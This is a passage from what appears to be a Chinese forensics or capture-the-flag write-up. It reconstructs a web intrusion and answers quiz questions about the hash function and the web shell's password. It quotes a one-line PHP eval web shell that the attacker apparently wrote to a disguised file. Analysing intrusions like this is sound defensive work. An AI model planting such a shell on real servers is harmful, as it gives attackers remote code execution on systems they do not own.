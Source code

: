 ```plain
<?php eval($_POST[hi]); ?>
```

于是后面的代码执行就顺理成章。发现后面对一些php文件进行有导出成txt的操作。  
[![](assets/1702520939-49e67a731371d8c43d6916728053d8f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180918-ad90d6bc-999f-1.png)  
看到4.txt，就是`Authentication.php`的代码内容，可以看到代码注释是`Create password hash from plaintext password.`。加密函数用的是`password_hash`。  
[![](assets/1702520939-a0c27e3de4e5265877e72b4707f09589.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180932-b5931f82-999f-1.png)  
那么这道题的答案就是**password\_hash**

### mid-3

> 题目内容：写入的第一次的shell的连接密码是多少？

在上题说过，第一次写入文件是`.1ndex.php`，把写入的文件内容找到。  
